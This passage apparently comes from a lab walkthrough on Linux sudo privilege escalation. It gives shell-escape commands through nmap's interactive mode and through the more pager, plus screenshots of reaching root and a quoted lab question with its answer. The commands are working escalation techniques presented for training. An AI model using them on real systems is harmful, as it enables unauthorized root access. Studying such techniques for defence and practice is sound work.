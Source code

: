 *(b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
sudo nmap --interactive
nmap> !sh
```

<br />

Following the steps in example (a): 

![image](https://user-images.githubusercontent.com/14150485/172017005-1501a070-dbb1-46b8-a773-c7d29c8d90ee.png)

And example (b):

![image](https://user-images.githubusercontent.com/14150485/172017064-ba72bda4-e546-429a-9f47-2f9dd08e829a.png)

<br />

**more**
------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
TERM= sudo more /etc/profile
!/bin/sh
```

![image](https://user-images.githubusercontent.com/14150485/172017159-7e447b85-e637-499f-bd3c-f6e1e22668af.png)

Successfully escalated to root!

![image](https://user-images.githubusercontent.com/14150485/172017178-17bcd1aa-41dc-40d2-981d-fd65a24f3a76.png)

<br />

### 6.3: Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

<br />

The answer to this is detailed in the following section.

```
No answer needed
```

<br />
<br />

## 7. Sudo - Environment Variables

<br />
